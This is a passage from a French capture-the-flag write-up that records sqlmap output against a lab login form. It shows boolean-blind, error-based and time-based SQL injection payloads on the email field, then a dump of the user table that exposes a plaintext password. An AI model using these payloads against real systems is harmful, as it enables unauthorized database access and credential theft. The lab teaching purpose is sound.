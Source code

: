 ```bash
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=test' AND 9749=(SELECT (CASE WHEN (9749=9749) THEN 9749 ELSE (SELECT 8209 UNION SELECT 3577) END))-- irFf&password=my_password

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=test' OR (SELECT 2937 FROM(SELECT COUNT(*),CONCAT(0x717a786a71,(SELECT (ELT(2937=2937,1))),0x716b707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jUhZ&password=my_password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test' AND (SELECT 3712 FROM (SELECT(SLEEP(5)))BwqO)-- usqD&password=my_password
---
[15:02:16] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[15:02:16] [INFO] fetching columns for table 'user' in database 'ai'
[15:02:16] [INFO] retrieved: 'id'
[15:02:16] [INFO] retrieved: 'int(11)'
[15:02:16] [INFO] retrieved: 'email'
[15:02:16] [INFO] retrieved: 'varchar(512)'
[15:02:16] [INFO] retrieved: 'password'
[15:02:16] [INFO] retrieved: 'varchar(512)'
[15:02:16] [INFO] retrieved: 'created'
[15:02:16] [INFO] retrieved: 'timestamp'
[15:02:16] [INFO] fetching entries for table 'user' in database 'ai'
[15:02:16] [INFO] retrieved: '1'
[15:02:16] [INFO] retrieved: '12345678'
[15:02:16] [INFO] retrieved: '2023-02-21 09:05:46'
[15:02:17] [INFO] retrieved: 'test@chatai.com'
Database: ai
Table: user
[1 entry]
+------+-----------------+---------------------+------------+
| id   | email           | created             | password   |
+------+-----------------+---------------------+------------+
| 1    | test@chatai.com | 2023-02-21 09:05:46 | 12345678   |
+------+-----------------+---------------------+------------+

[15:02:17] [INFO] table 'ai.`user`' dumped to CSV file '/root/.sqlmap/output/10.10.111.207/dump/ai/user.csv'
[15:02:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.111.207'
[15:02:17] [WARNING] you haven't updated sqlmap for more than 2031 days!!!

[*] ending @ 15:02:17 /2025-10-25/
```

Et boom on a le mot de passe de l'email

**Réponse :** `12345678`

**Room Complétée**

{% include comments.html %}
